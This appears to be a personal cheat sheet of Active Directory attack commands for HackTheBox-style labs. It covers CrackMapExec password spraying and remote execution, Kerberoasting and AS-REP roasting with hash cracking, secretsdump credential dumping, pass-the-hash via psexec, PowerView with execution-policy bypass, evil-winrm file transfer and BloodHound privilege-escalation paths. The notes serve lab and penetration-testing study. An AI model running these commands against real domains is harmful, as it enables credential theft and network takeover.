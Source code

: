 # Tools

## Crackmapexec

```bash
crackmapexec smb <IP> --pass-pol  # Attempt to get the password policy
crackmapexec smb <IP> --pass-pol -u '' -p ''  # Null authentication attempt

crackmapexec smb <IP> -u <username(s)> -p <password(s)>  # SMB authentication

crackmapexec winrm <IP> -u <username(s)> -p <password(s)>
crackmapexec winrm <IP> -u <username(s)> -p <password(s)> -X "whoami"  # Run a command
```

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrator, guest,

```

## Impacket

#### GetADUsers

Queries target domain for users data

```bash
GetADUsers.py -all -dc-ip <IP> active.htb/svc_tgs   # Will need account creds
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

Queries target domain for SPNs that are running under a user account

```bash
GetUserSPNs.py -request -dc-ip <IP> active.htb/svc_tgs
# Check for kerberoasted output
# Crack found hashes then try to psexec
```

#### secretsdump

Performs various techniques to dump secrets from the remote machine without executing any agent there.

```bash
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## evil-winrm

#### Connection

```bash
evil-winrm -u <user> -p <password> -i <IP>
```

#### Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

#### Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali

# Running remotely in PowerShell
.\SharphHound.exe -c all -d active.htb --domaincontroller <IP>
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
sudo neo4j console/start
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added (graph line) and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

#### bloodhound.py

```bash
python3.8 bloodhound.py -ns <IP> -d intelligence.htb -dc dc.intelligence.htb -u <username> -p <password> -c All
# Start neo4j an dupload the output to Bloodhoun
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```
